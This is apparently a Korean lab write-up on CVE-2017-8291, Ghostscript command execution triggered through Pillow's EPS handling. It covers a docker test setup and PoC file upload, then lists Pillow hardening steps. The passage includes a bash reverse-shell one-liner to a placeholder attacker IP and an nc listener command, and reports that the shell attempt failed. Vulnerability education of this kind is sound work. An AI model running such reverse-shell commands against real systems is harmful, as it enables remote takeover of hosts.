








# CVE-2017-8291

**Contributors**

-   [김석환(@Sskan-Kim)](https://github.com/Sskan-Kim)

<br/>

## 요약
- `Python`에서 이미지 처리를 담당하는 `PIL(Pillow)` 모듈은 내부적으로 `GhostScript`를 호출하여 작업을 처리함.
- 이 과정에서 `GhostScript`의 취약점으로 인해 발생하는 보안 이슈에 `PIL(Pillow)` 또한 영향을 받게 됨.
- 특히, 이 취약점은 원격에서 악의적인 명령을 실행할 수 있는 문제를 일으키며, 이를 통해 공격자는 취약한 시스템을 원격 제어할 수 있는 권한을 획득할 수 있음.

## 이미지 인식 방법
- PIL은 이미지의 종류를 식별하기 위해 `'Magic Bytes'`라는 방식을 사용. 특히, 이미지가 EPS 형식 (헤더는 '%!PS')인 경우, PIL은 `EpsImagePlugin.py` 모듈로 처리.

- 이 모듈 내에서, `PIL`은 `gs` 명령어를 호출하여 `GhostScript`로 이미지를 처리.
  ```python
  command = [
    "gs",                  # GhostScript command
    "-q",                  # quiet mode
    "-g%dx%d" % size,      # set output geometry (pixels)
    "-r%fx%f" % res,       # set input DPI (dots per inch)
    "-dBATCH",             # exit after processing
    "-dNOPAUSE",           # don't pause between pages
    "-dSAFER",             # safe mode
    "-sDEVICE=ppmraw",     # ppm driver
    "-sOutputFile=%s" % outfile,  # output file
    "-c", "%d %d translate" % (-bbox[0], -bbox[1]),  # adjust for image origin
    "-f", infile,           # input file
  ]

  # GhostScript를 사용하여 이미지를 변환하는 코드
  try:
      with open(os.devnull, 'wb') as devnull:
          subprocess.check_call(command, stdin=devnull, stdout=devnull)
      im = Image.open(outfile)
  except Exception as e:
      # handle the exception as needed
      pass

<br/>

## 환경 구성 및 실행

- `docker compose up -d`를 실행하여 테스트 환경을 실행한다.

  

<br/>

- `http://localhost:8000`에 접속하면 파일 업로드 페이지가 나타난다.

  

<br/>

- 악의적으로 조작된 `poc.png` 파일을 업로드한다. 파일이 업로드되면 Ghostscript 내부의 Type Confusion 취약점으로 인해 보안 기능이 우회되며 명령어 구문이 강제 실행되고 `/tmp/aaaaa` 파일이 생성된다.

  

  

  

<br/>

- 컨테이너에서 `/tmp/aaaaa` 파일을 확인하여 취약점 존재 여부를 검증한다.

  ```
  docker exec <container-name> ls /tmp/
  ```

  

  tmp 디렉터리 내부에 aaaaa 파일이 root 권한 및 크기 0으로 성공적으로 생성되어 취약점이 있음을 알 수 있다.

<br/>

- ### 리버스 셸 명령을 통해 root 권한 얻기 및 한계점 분석

- `poc.png` 파일의 코드를 다음과 같이 수정한다. (`your-attacker-ip`는 리버스 셸을 받을 머신의 IP로 교체)
  
  `bash -c "bash -i >& /dev/tcp/your-attacker-ip/8002 0>&1"`

  

- 공격자 머신에서 listening port 8002를 열고 기다린다.
  
  `nc -lvnp 8002`

  

- 수정한 `poc.png` 파일을 다시 업로드하였으나, 인터랙티브 셸이 연결되지 않고 내부 무한 대기 현상이 발생한다.
  
  

## 네트워크 환경 한계 요인 분석

- WSL2 네트워크 인바운드 차단 : WSL2 가상 서브넷 라우팅 구조와 Windows 커널 방화벽 정책 간의 격리로 인해 컨테이너에서 발송된 역방향 인바운드 TCP 패킷이 필터링되었다.


<br/>

## 취약점 대응 방안 및 권장 사항
- GhostScript의 자체 버전 문제로 PIL만 업데이트해도 해결되지 않으며, pip를 통한 업데이트도 효과가 없음.
  
- Python 웹 어플리케이션에서는 EPS 이미지 파일 처리가 드물지만, 처리 시 문제가 발생할 수 있음. 특히, PIL의 Image 모듈의 init() 함수 때문에 GhostScript 취약점에 노출될 수 있음.

- 따라서 소스코드 수준의 선제 방어 및 컨테이너 런타임 하드닝을 통한 다중 방어 전략 수립이 요구됨.


- 특정 이미지 형식만 처리하기
  - 코드상에서, PIL은 기본적으로 init() 함수를 통해 모든 이미지 형식의 처리 방법을 로드 하려 함.
  - open() 함수 호출 전 preinit() 메서드를 사용하여 일반적인 포맷만 명시적으로 초기화하고, _initialized 값을 2 이상으로 강제 고정하여 GhostScript 프로세스(EPS 파싱 플러그인)가 서브프로세스로 기동되는 구조를 원천 차단함.
  
  ```python
  def init():
    global _initialized
    if _initialized >= 2:
        return 0

    for plugin in _plugins:
        try:
            logger.debug("Importing %s", plugin)
            __import__("PIL.%s" % plugin, globals(), locals(), [])
        except ImportError as e:
            logger.debug("Image: failed to import %s: %s", plugin, e)
  ```

- Image 모듈의 초기화 방식 변경
  - open 함수를 사용하여 이미지 파일을 열기 전에 preinit()을 사용하고, _initialized 값을 2 이상으로 설정하여, Image 모듈이 EPS 파일을 파싱하기 위해 GhostScript를 호출하는 것을 방지하도록 변경하는 것이 좋습니다.

  ```python
  Image.preinit()
  Image._initialized = 2 
  ```

## 정리

- 본 실습은 CVE-2017-8291 취약점을 기반으로 검증되지 않은 외부 파일 업로드 아키텍처가 시스템 런타임 권한에 끼치는 보안 위협을 증명함.
- 단순 패키지 버전 관리를 넘어, 최소 권한 원칙 중심의 다중 레이어 보안 설정을 결합해야 안전한 컨테이너 가상화 운영이 가능함을 확인하게함.
- 성공적인 공격은 시스템의 루트 제어를 가능하게 함. 
